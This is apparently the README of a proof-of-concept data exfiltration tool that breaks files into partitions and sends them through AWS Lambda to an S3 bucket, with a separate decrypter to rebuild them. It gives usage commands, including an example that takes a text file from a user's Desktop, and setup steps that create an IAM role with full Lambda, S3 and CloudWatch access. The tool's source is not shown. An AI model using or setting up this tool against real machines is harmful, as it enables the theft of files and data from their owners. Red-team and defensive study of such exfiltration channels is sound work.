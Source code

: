 # AWS Lambda Exfil Tool [PoC]

Here we have a small PoC on how the program works  

![StandaloneClientGif](media/standaloneClient.gif)

## About
The program follows the following diagram. Explanation on how each part functions is present on standaloneClient pdf file.  

![StandaloneClient diagram](media/Standalone_client_1.png?raw=true "Standalone Client Diagram")


## Usage
#### Client
`py clientName.py -s <Partition size in kb> -i <File to exfiltrate>`  
Example:  
`py clientName.py -s 100 -i "C:\Users\SomeUser\Desktop\test.txt"`
#### Decrypter
###### Note: If not sure about hostname and filename, check S3 Bucket after exfiltration
`py decrypter.py -n "Hostname" -i "Filename"`  
Example after exfiltrating test.txt:  
`py decrypter.py -n "ID4A0E" -i "test"`
## Setup

###### Note: Use python 3.x  

#### IAM Console
Go to AWS IAM console and create a role (Remember the ARN name) with the following permissions:  

- AWSLambdaFullAccess
- AmazonS3FullAccess
- CloudWatchFullAccess

###### Run `pip install -r requirements.txt`

###### Run `py setup.py` and follow the prompts

#### Partitions
Please take in account the size of the file to be exfiltrated when defining the partition size.

#### Supported Files
The tool supports txt, csv and xlsx files but every file that is text based (For example a .py file) will be exfiltrated succesfully.
